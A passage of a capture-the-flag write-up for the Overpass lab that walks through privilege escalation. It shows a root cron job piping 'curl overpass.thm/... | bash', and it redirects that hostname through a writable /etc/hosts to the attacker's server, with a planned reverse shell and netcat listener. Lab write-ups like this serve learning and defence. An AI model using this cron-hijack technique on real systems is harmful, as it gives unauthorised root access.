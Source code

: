 Okay after studying all the potential vulnerabilities I found two easy ways to escalate our priviliges. 

1. `etc/hosts/` is not write protected, which means, we can easily use this for our purpose
2. `cron jobs` look very interesting, the last `cron job` runs every minute a script.

`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`


```bash

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

```

Lets see, what the script does:

```bash
james@overpass-prod:/etc/cron.d$ curl overpass.thm/downloads/src/buildscript.sh
GOOS=linux /usr/local/go/bin/go build -o ~/builds/overpassLinux ~/src/overpass.go
## GOOS=windows /usr/local/go/bin/go build -o ~/builds/overpassWindows.exe ~/src/overpass.go
## GOOS=darwin /usr/local/go/bin/go build -o ~/builds/overpassMacOS ~/src/overpass.go
## GOOS=freebsd /usr/local/go/bin/go build -o ~/builds/overpassFreeBSD ~/src/overpass.go
## GOOS=openbsd /usr/local/go/bin/go build -o ~/builds/overpassOpenBSD ~/src/overpass.go
echo "$(date -R) Builds completed" >> /root/buildStatus
```

Okay lets cook. We will do it in 4 Steps:

1. Change `hosts` file 
2. Write script for `reverse shell`
3. Create local webserver with the same paths ( overpass.thm/downloads/src/buildscript.sh)
4. Listen via netcat

### 1. Change `hosts` file:

We edit the `hosts` file in `etc/hosts`
```bash
james@overpass-prod:/etc$ cat hosts
#127.0.0.1 localhost
#127.0.1.1 overpass-prod
#127.0.0.1 overpass.thm
#The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.8.24.XX overpass.thm
```
